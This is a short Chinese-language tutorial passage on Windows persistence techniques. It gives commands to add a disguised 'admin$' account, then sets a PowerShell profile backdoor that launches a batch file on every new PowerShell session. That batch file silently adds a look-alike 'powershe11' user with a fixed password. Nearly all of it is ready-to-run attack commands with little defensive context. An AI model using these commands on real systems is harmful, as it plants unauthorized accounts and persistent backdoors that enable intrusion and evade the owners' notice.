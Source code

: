 参考链接：https://www.modb.pro/db/524976

```
net user admin$ Qwe123 add    #添加用户admin$
```

### powershell后门

```
echo $profile								#输出$profile的绝对路径
Test-path $profile							#检查指定路径是否存在
New-Item -Path $profile -Type File -Force	#强制创建一个文件
$string = 'Start-Process "C:\1.bat"'		#赋予$string变量为启动C:\1.bat程序
$string |Out-File -FilePath $profile -Append	#将$string变量的内容追加添加到$profile变量所指定的文件末尾。
more $profile							#可以查看$profile的内容为Start-Process "C:\1.bat"
```

在C:\创建1.bat，命令为创建一个powershe11用户

```
@echo off
net user powershe11 Qwe123 /add
```

重新打开一个powershell，就会执行1.bat脚本文件

然后net user查看，发现多了一个powershe11用户，执行成功

